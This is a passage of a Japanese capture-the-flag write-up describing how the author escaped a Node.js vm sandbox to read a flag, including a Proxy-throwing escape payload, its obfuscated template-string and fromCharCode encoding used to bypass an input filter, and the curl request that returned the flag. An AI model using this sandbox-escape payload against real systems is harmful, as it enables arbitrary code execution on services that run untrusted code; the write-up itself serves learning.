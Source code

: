### global.flag を手に入れたい

`validInput` の制限を無視できるようにはなりましたが、残念ながらこれらのコードは `vm.runInContext` によって制限された環境の中で実行されているため、最初に定義されている `global.flag` にはアクセスすることができません。抜け出せないでしょうか。

`node.js vm escape` でググってみると、[Escaping nodejs vm](https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af) という Gist がヒットしました。上から見ていくと、[`code5`](https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af#file-escape-js-L120-L128) が `Proxy` を例外として投げるもので、このアプリの `try { response = vm.runInContext(…); … } catch (ex) { response = ex.toString() }` という例外の処理方法から考えても使えそうです。

最終的に、先程のスクリプトの `payload` を以下のようなコードに置き換え、実行して出力されたものを投げるとフラグが得られました。

```javascript
throw new Proxy({}, {
  get: function(me, key) {
    const cc = arguments.callee.caller;
    if (cc != null) {
      var res = (cc.constructor.constructor('return flag'))();
    }
    return function () {
      return res;
    };
  }
})
```

```
$ python gen.py
Function`a${Function`a${`return String${Function`a${`with ${`${par`help`}`} return charAt${par`27`}`}```}fromCharCode${par`116${1}104${1}114${1}111${1}119${1}32${1}110${1}101${1}119${1}32${1}80${1}114${1}111${1}120${1}121${1}40${1}123${1}125${1}44${1}32${1}123${1}10${1}32${1}32${1}103${1}101${1}116${1}58${1}32${1}102${1}117${1}110${1}99${1}116${1}105${1}111${1}110${1}40${1}109${1}101${1}44${1}32${1}107${1}101${1}121${1}41${1}32${1}123${1}10${1}32${1}32${1}32${1}32${1}99${1}111${1}110${1}115${1}116${1}32${1}99${1}99${1}32${1}61${1}32${1}97${1}114${1}103${1}117${1}109${1}101${1}110${1}116${1}115${1}46${1}99${1}97${1}108${1}108${1}101${1}101${1}46${1}99${1}97${1}108${1}108${1}101${1}114${1}59${1}10${1}32${1}32${1}32${1}32${1}105${1}102${1}32${1}40${1}99${1}99${1}32${1}33${1}61${1}32${1}110${1}117${1}108${1}108${1}41${1}32${1}123${1}10${1}32${1}32${1}32${1}32${1}32${1}32${1}118${1}97${1}114${1}32${1}114${1}101${1}115${1}32${1}61${1}32${1}40${1}99${1}99${1}46${1}99${1}111${1}110${1}115${1}116${1}114${1}117${1}99${1}116${1}111${1}114${1}46${1}99${1}111${1}110${1}115${1}116${1}114${1}117${1}99${1}116${1}111${1}114${1}40${1}39${1}114${1}101${1}116${1}117${1}114${1}110${1}32${1}102${1}108${1}97${1}103${1}39${1}41${1}41${1}40${1}41${1}59${1}10${1}32${1}32${1}32${1}32${1}125${1}10${1}32${1}32${1}32${1}32${1}114${1}101${1}116${1}117${1}114${1}110${1}32${1}102${1}117${1}110${1}99${1}116${1}105${1}111${1}110${1}32${1}40${1}41${1}32${1}123${1}32${1}114${1}101${1}116${1}117${1}114${1}110${1}32${1}114${1}101${1}115${1}59${1}32${1}125${1}59${1}10${1}32${1}32${1}125${1}10${1}125${1}41`}`}```}```
$ curl https://(省略)/repl -H "Content-Type: application/json" -d '{"cmd":"(省略)"}'
{"response":"p4{js_template_strings_are_so_functional}"}
```

```
p4{js_template_strings_are_so_functional}
```